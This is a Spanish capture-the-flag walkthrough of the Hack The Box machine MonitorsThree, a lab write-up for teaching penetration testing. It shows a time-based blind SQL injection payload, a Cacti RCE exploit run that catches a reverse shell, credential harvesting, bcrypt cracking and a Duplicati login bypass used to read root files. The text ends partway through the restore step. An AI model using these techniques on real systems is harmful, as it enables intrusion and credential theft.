

## Reconocimiento

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
nmap -p- --min-rate 5000 -sVC -Pn -n 10.10.11.30 -oN nmap.txt  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 17:36 CET 
Nmap scan report for 10.10.11.30 
Host is up (0.056s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT     STATE    SERVICE VERSION 
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA) 
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519) 
80/tcp   open     http    nginx 1.18.0 (Ubuntu) 
|_http-title: Did not follow redirect to http://monitorsthree.htb/ 
|_http-server-header: nginx/1.18.0 (Ubuntu) 
8084/tcp filtered websnp 

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

En el resultado de **nmap**, identificamos una redirección al dominio *monitorsthree.htb*, lo añadimos a nuestro fichero *hosts* y accedemos al sitio web.


Enumeramos un formulario de autenticación, probamos algunas credenciales por defecto sin éxito:


Con la herramienta **dirsearch**, enumeramos el directorio */admin/*, pero no tenemos permitido el acceso a éste:


Buscamos posibles subdominios con la idea de encontrar algún entorno de desarrollo o algún servicio con el que podamos seguir enumerando información para reutilizar en el panel de autenticación, logramos identificar un subdominio *cacti.monitorsthree.htb*: 
```
wfuzz -c --hc 404 --hw 982 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.monitorsthree.htb" http://monitorsthree.htb 

******************************************************** 
* Wfuzz 3.1.0 - The Web Fuzzer                         * 
******************************************************** 
Target: http://monitorsthree.htb/ 
Total requests: 114441 
===================================================================== 
ID           Response   Lines    Word       Chars       Payload                                                                                                                 
===================================================================== 
000000246:   302        0 L      0 W        0 Ch        "cacti" 
```

Accedemos al sitio web, encontramos desplegado un *Cacti 1.2.26*, buscando en internet, encontramos exploits públicos que permiten ejecutar código remoto con usuarios autenticados.
#### Exploits
- [https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26](https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26)
- [https://github.com/Safarchand/CVE-2024-25641](https://github.com/Safarchand/CVE-2024-25641)

Solo tenemos un pequeño problema, y es que no tenemos credenciales :(, probamos credenciales por defecto para acceder pero sin éxito:


## Explotación
Volvemos al principio, damos un repaso de todo lo que tenemos y empezamos a "*armar un puzzle*" en nuestra cabeza.
Revisando el panel de autenticación inicial, vemos que existe una funcionalidad para recuperar la contraseña.


Interceptamos con **Burp** la petición, fácilmente logramos enumerar una Inyección SQL en la respuesta del servidor al introducir una comilla simple "*'*":

#### Prueba de concepto



Automatizamos la inyección SQL con la herramienta **SQLMap**:
```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests: 
--- 
Parameter: username (POST) 
    Type: time-based blind 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP) 
    Payload: username=admin' AND (SELECT 5348 FROM (SELECT(SLEEP(5)))dhju) AND 'jbfx'='jbfx 
--- 
```

Tras la enumeración de la base de datos *monitorsthree_db*, y dentro de la tabla *users*, conseguimos extraer varias credenciales, y logramos acceder al panel interno con una de ellas:



Probamos a reutilizar las credenciales sobre el panel de *Cacti* con éxito, así que, continuamos por esta vía con la intención de explotar el RCE y conseguir una conexión interactiva con la máquina remota:


Utilizamos el exploit [https://github.com/Safarchand/CVE-2024-25641](https://github.com/Safarchand/CVE-2024-25641), éste require de tener una terminal en escucha para recibir la conexión de la máquina víctima.

Nos ponemos en escucha y ejecutamos el exploit:
```python
python3 exploit.py -u admin -p ************ -i <NUESTRA_IP> -l <PUERTO> -url http://cacti.monitorsthree.htb
Cacti Instance Found! 
Login Successful! 
Package Import finalized 
Triggering shell..... make sure you've started the listener 
```

Y conseguimos acceso a la máquina:
```
nc -nvlp 443 
listening on [any] 443 ... 
connect to [10.10.******] from (UNKNOWN) [10.10.11.30] 46536 
/bin/sh: 0: can't access tty; job control turned off 
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
$ 
```

Encontramos que existe un usuario llamado *Marcus*, pero no tenemos permisos para acceder a sus ficheros, así que buscamos credenciales en los ficheros de *Cacti*
```
www-data@monitorsthree:~/html/cacti/.github$ grep -ri password 
workflows/syntax.yml:          MYSQL_PASSWORD: ********** 
workflows/syntax.yml:          MYSQL_ROOT_PASSWORD: ************* 
workflows/syntax.yml:        echo -e "[client]\nuser = root\npassword = **********\nhost = 127.0.0.1\n" >> ~/.my.cnf 
workflows/syntax.yml:        echo -e "[client]\nuser = root\npassword = **********\nhost = 127.0.0.1\n" > ${{ github.workspace }}/.my.cnf 
```

Logramos enumerar las credenciales de *Marcus* en la base de datos de *Cacti*:
```
www-data@monitorsthree:~/html/cacti/.github$ mysql -u ******** -p 
Enter password:  
Welcome to the MariaDB monitor.  Commands end with ; or \g. 
Your MariaDB connection id is 7045 
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04 

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others. 

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

MariaDB [(none)]> show database; 
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1 
MariaDB [(none)]> show databases; 
+--------------------+ 
| Database           | 
+--------------------+ 
| cacti              | 
| information_schema | 
| mysql              | 
+--------------------+ 
3 rows in set (0.001 sec) 
  
MariaDB [(none)]>  
 
Enumeramos las credenciales de marcus en cactis 
 
MariaDB [cacti]> select username,password,full_name,password_history from user_auth; 
+----------+--------------------------------------------------------------+---------------+------------------+ 
| username | password                                                     | full_name     | password_history | 
+----------+--------------------------------------------------------------+---------------+------------------+ 
| admin    | $2y$10$****************************3mDuyG90G                 | Administrator | -1               | 
| guest    | $2y$10$****************************ATo77nLHu                 | Guest Account | -1               | 
| marcus   | $2y$10$****************************xo79IBjtK                 | Marcus        |                  | 
+----------+--------------------------------------------------------------+---------------+------------------+ 
3 rows in set (0.001 sec) 
  
MariaDB [cacti]>   
```

Con la ayuda de la herramienta **john** y el diccionario **rockyou**, logramos crackear el *hash bcrypt* del usuario *Marcus*:
```
john marcus.hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) 
Cost 1 (iteration count) is 1024 for all loaded hashes 
Will run 2 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
******************      (?)      
1g 0:00:00:04 DONE (2025-01-12 03:59) 0.2421g/s 108.9p/s 108.9c/s 108.9C/s 12345678910..chris1 
Use the "--show" option to display all of the cracked passwords reliably 
Session completed. 
```

Probamos la contraseña sobre el usuario *Marcus* y conseguimos leer la flag de *user.txt*:
```
www-data@monitorsthree:~/html/cacti/.github$ su marcus 
Password:  
marcus@monitorsthree:/var/www/html/cacti/.github$ id 
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus) 
marcus@monitorsthree:/var/www/html/cacti/.github$  

marcus@monitorsthree:~$ ls -lna 
total 32 
drwxr-x--- 4 1000 1000 4096 Aug 16 11:35 . 
drwxr-xr-x 3    0    0 4096 May 26  2024 .. 
lrwxrwxrwx 1    0    0    9 Aug 16 11:29 .bash_history -> /dev/null 
-rw-r--r-- 1 1000 1000  220 Jan  6  2022 .bash_logout 
-rw-r--r-- 1 1000 1000 3771 Jan  6  2022 .bashrc 
drwx------ 2 1000 1000 4096 Aug 16 11:35 .cache 
-rw-r--r-- 1 1000 1000  807 Jan  6  2022 .profile 
drwx------ 2 1000 1000 4096 Aug 20 13:07 .ssh 
-rw-r----- 1    0 1000   33 Jan 11 23:10 user.txt 
marcus@monitorsthree:~$ cat user.txt  
******************** 
marcus@monitorsthree:~$  
```

## Escalada de privilegios
En el directorio de *Marcus*, encontraremos el fichero *id_rsa* dentro del directorio *.ssh*, ésta contiene la clave privada y nos permitirá establecer conexión mediante *SSH*.

Realizando una enumeración de los servicios internos, encontramos un servicio web corriendo en el puerto 8200:
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                            
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:38787         0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::80                   :::*                    LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -       
```

Hacemos un port forwarding incluyendo el fichero id_rsa de *Marcus*, con la intención de montar el servicio web del puerto 8200 en nuestro puerto 8200 local:
```
ssh -L 8200:127.0.0.1:8200 marcus@10.10.11.30 -i id_rsa
```

Accedemos a él, vemos un simple formulario de *Duplicati*, buscando información sobre este software en internet, permite la creación y recuperación de copias de seguridad.


También encontramos un artículo que explica como evadir el sistema de autenticación:
- [https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)

Así que seguimos los pasos que explica el artículo anterior, logramos enumerar y descargar una base de datos en SQLite, y logramos visualizar el hash *server-passphrase* y *server-passphrase-salt*:


Tras seguir el proceso de evasión, logramos acceder al panel de *Duplicati*.
El proceso es bastante sencillo, primero crearemos una backup del archivo root.txt, y posteriormente, haremos la recuperación del fichero al directorio de nuestro usuario.

#### Creamos la backup para el fichero root.txt
Cumplimentamos el campo *Name* y pulsamos en siguiente:


Seleccionamos el directorio donde queremos realizar la copia de seguridad:


#### Recuperación de la backup del fichero root.txt
Pulsamos en el menú *Restore* y seleccionamos nuestra copia de seguridad recien creada, después seleccionaremos el fichero *root.txt* y pulsaremos en *Continue*:


Seleccionamos la carpeta que recibirá el fichero *root.txt*, seleccionamos la del usuario *Marcus*, también deberemos de marcar la casilla "*Restore read/write permissions*":
